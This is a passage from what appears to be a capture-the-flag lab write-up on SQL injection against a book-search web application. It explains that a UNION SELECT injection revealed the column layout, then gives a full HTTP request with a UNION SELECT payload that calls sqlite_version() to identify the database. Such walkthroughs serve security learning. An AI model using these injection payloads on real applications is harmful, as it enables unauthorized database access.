 ![Pasted image 20210807190020](Pasted%20image%2020210807190020.png)

It worked. An extra book is rendered by the application, indicating that `title` is the second column, `description` is the third, and `author` is the fourth. The four column types are just as assumed: integer, string, string, and string.

With this. determine the type of underlying database.

```http
GET /challenge6/book?title=%')+UNION+SELECT+1,'a',sqlite_version(),'c'-- HTTP/1.1
Host: 10.10.141.250:5000
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Cookie: session=.eJyrVkrOSMzJSc1LTzWLLy1OLYrPTFGyMtNBF85LzE1VslIqSc_MSFPSUcpNzMxLLCiILyxNLapUskpLzClOrQUAHh4bmA.YQ8GJg.Dld_9hHLGCER2geRTTYpc2xkKZE
Upgrade-Insecure-Requests: 1
Sec-GPC: 1
Cache-Control: max-age=0
```